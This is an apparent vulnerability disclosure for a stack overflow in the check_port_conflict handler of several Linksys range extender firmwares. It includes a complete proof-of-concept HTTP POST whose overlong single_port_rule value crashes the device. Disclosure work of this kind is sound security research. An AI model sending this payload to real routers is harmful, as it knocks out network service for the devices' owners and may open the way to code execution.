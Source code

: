 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `check_port_conflict` function, `single_port_rule、port_range_rule` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `single_port_rule、port_range_rule` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `single_port_rule、port_range_rule` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `single_port_rule` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/check_port_conflict HTTP/1.1
Host: 192.168.1.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 264
Origin: http://192.168.1.6
Connection: close
Referer: http://192.168.1.6/wireless/wireless_basic.shtml
Cookie: session_id=RiYikyg3paTKFmyPbLjfwPHTKs9yQSVp
Upgrade-Insecure-Requests: 1

port_forwaord_type=singlePort&single_port_rule=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&port_range_rule=
```



## Result

The target router crashes and cannot provide services correctly and persistently.

